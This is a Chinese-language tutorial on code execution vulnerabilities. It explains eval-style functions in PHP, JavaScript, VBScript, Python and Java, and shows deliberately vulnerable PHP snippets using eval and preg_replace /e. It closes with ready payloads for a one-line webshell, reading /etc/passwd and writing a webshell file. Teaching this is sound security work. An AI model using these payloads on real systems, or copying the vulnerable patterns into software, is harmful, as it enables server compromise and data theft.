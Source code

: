 ## 一、代码执行漏洞的成因

应用程序在调用一些能够将字符串转换为代码的函数(如php中的eval)时，没有考虑用户是否控制这个字符串，将造成代码执行漏洞。

## 二、代码执行漏洞相关函数

- PHP：eval、assert 、preg_replace( ) + /e 模式(PHP版本 < 5.5.0)
- Javascript：eval
- Vbscript: Execute、Eval
- Python：exec
- Java：Java中没有类似php中eval函数这种直接可以将字符串转化为代码执行的函数，但是有反射机制，并且有各种基于反射机制的表达式引擎，如：OGNL、SpEL、MVEL等，这些都能造成代码执行漏洞

## 三、代码执行漏洞的利用

### 1、以eval()函数为例

#### 当可控点为待执行的程序时：

直接传入想要执行的代码

```php
<?php 
   $data = $_GET['data']; 
   eval("\$ret = $data;"); 
   echo $ret; 
?>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/1/1630486307398.png?x-oss-process=style/ImageWaterMark_V1.0)

#### 当可控点为某个函数的参数被单引号包裹时：

在PHP中，双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果；单引号中的变量不会被处理。 所以在这种情况中需要将参数前面的单引号闭合掉之后，传入的代码才能正常执行

```php
<?php
   $data=$_GET['data'];
   eval("\$ret=strtolower('$data');");
   echo $ret;
?>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/1/1630487236315.png?x-oss-process=style/ImageWaterMark_V1.0)

#### 当可控点为某个函数的参数被双引号包裹时：

同样可以使用闭合引号的方式 也可以通过传入一个经过定义的值

```php
<?php
   $data=$_GET['data'];
   eval("\$ret=strtolower(\"$data\");");
   echo $ret;
?>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/1/1630487681835.png?x-oss-process=style/ImageWaterMark_V1.0)

### 2、preg_replace( )函数

在PHP版本 < 5.5.0时存在此漏洞

```php
<?php 
   $data=$_GET['data']; 
   //echo $data; 
   preg_replace('/<data>(.*)<\/data>/e', '$ret="\\1";', $data); 
   echo $ret; 
?>
```

![image.png](http://secevery.oss-cn-beijing.aliyuncs.com/images/article/2021/8/1/1630488437105.png?x-oss-process=style/ImageWaterMark_V1.0)

## 四、代码执行常用来执行的代码

- 一句话木马： `${@eval($_POST[1])}`
- 获取当前工作路径： `${exit(print(getcwd()))}`
- 读文件：`${exit(var_dump(file_get_contents($_POST[f])))} f=/etc/passwd`
- 写`webshell：${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))} f=1.php&d=1111111`